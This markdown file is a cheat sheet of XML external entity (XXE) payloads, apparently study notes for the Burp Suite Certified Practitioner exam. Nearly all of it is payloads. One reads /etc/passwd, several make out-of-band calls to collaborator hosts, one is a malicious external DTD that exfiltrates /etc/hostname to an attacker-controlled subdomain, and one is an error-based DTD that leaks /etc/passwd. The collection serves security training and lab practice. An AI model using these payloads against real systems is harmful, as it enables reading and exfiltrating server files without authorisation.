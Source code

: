 # XXE



1. payload
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```


2.Payload

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/XXE-2.jpg)

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/XXE-3.jpg)

3.Payload


```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://312d7f49j37e6gjy10vxd8qvhmndb3zs.oastify.com"> ]>

<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>

```


4.Payload
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://435e9g6al49f8hlz31xyf9swjnped51u.oastify.com"> %xxe; ]>

<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```


5.Payload

```
Place the Burp Collaborator payload into a malicious DTD file:
Path : https://exploiturl.com/exploit.dtd

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;



__________________________________________________________

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-server.net/exploit.dtd"> %xxe;]>

```


6.Payload

```

Exploit server :

<!ENTITY % filepass SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; errorabc SYSTEM 'file:///invalid/%filepass;'>">
%eval;
%errorabc;


________________________________________________________________

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a63005a0340421581be65cf019500c8.exploit-server.net/exploit"> %xxe;]>

<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```
